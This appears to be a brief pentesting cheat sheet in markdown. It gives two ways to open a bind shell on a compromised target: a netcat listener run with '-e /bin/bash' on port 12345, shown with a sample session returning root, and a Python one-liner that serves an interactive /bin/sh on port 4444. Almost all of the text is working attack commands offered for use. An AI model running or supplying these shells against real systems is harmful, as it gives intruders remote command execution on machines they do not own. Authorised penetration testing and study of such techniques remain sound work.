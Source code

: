 # Pentesting

## Open a netcat connection on the target machine
Run the following command on the target machine:
```
nc.traditional -l -p 12345 -e /bin/bash
```

Now you can connect to it by running the following command from your attack machine:
```
nc {target_machine_ip} 12345
```
Example:
```
$ nc 192.168.232.131 12345
whoami
root
```

## Open a bind shell
[Source](https://github.com/shelld3v/Python-shell-cheat-sheet)

Once you gain a foothold on the target machine you can run the following command to start a bind shell:
```
python3 -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

